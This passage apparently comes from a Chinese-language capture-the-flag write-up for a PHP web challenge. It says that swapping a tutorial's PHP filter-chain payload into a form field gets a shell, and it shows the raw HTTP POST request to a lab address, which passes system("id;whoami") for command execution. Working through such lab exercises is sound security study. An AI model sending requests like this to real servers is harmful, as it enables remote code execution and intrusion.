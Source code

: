 將 <PHP FILTER CHAIN> 改為教學文件中提供的 payload，即可成功 get shell 
```
POST /stage4_b182g38e7db23o8eo8qwdehb23asd311.php?1=system("id;whoami"); HTTP/1.1
Host: 172.31.210.1:33002
Content-Length: 8227
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="👀"

<PHP FILTER CHAIN>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

